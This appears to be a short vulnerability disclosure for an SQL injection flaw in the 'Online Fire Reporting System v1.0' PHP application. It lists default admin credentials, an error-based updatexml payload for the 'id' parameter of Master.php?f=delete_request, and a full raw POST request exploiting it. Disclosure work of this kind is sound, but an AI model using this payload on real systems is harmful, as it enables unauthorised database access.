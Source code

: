 # Online Fire Reporting System v1.0  has SQL injection vulnerability

Login account: admin/admin123

vendor : https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Vulnerability file: /hocms/classes/Master.php?f=delete_request

![image-20220522140811592](https://s2.loli.net/2022/05/22/VZLGWzalmufxvFq.png)



Vulnerability location: /hocms/classes/Master.php?f=delete_request,id

[+]Payload: id=2' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+ //id is Injection point

```
POST /ofrs/classes/Master.php?f=delete_request HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://localhost
Connection: close
Referer: http://localhost/ofrs/classes/Master.php?f=delete_team
Cookie: UM_distinctid=17edc5ecd369-032851db15155a-4c3e237c-144000-17edc5ecd374b2; CNZZDATA585346=cnzz_eid%3D1638517557-1644367242-%26ntime%3D1644367242; PHPSESSID=0nngc9rh9jt0i53ha9ueig8r9c
Upgrade-Insecure-Requests: 1

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image-20220522132422382](https://s2.loli.net/2022/05/22/MVa1obKHyrecfu8.png)

![image-20220522135617115](https://s2.loli.net/2022/05/22/iAqTFlK68HrZySz.png)

